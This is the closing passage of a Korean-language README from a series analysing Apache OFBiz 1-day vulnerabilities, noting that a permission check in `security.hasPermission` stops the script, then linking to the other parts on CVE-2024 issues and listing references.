

또한, 로그에서도 권한 검사 `security.hasPermission` 메서드로부터 예외가 발생되어 스크립트가 종료된 것을 확인할 수 있습니다.



# Continue…

다음은 네 번째 CVE 취약점인 [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45195 (5/7)](/Apache%20OFBiz%201-Day%20Analysis/05.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45195/README.md) 에 대해 알아보겠습니다.

> 🔖 **Apache OFBiz 1-Day 취약점 살펴보기**
> 1. [Apache OFBiz 1-Day 취약점 살펴보기: 개요 (1/7)](/Apache%20OFBiz%201-Day%20Analysis/README.md)
> 2. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-32113 (2/7)](/Apache%20OFBiz%201-Day%20Analysis/02.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-32113/README.md)
> 3. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-36104 (3/7)](/Apache%20OFBiz%201-Day%20Analysis/03.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-36104/README.md)
> 4. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-38856 (4/7)](/Apache%20OFBiz%201-Day%20Analysis/04.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-38856/README.md) 
> 5. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45195 (5/7)](/Apache%20OFBiz%201-Day%20Analysis/05.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45195/README.md) 
> 6. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45507 (6/7)](/Apache%20OFBiz%201-Day%20Analysis/06.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45507/README.md) 
> 7. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-47208 (7/7)](/Apache%20OFBiz%201-Day%20Analysis/07.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-47208/README.md) 

---

# References

- https://issues.apache.org/jira/browse/OFBIZ-13128
- https://www.sonicwall.com/blog/sonicwall-discovers-second-critical-apache-ofbiz-zero-day-vulnerability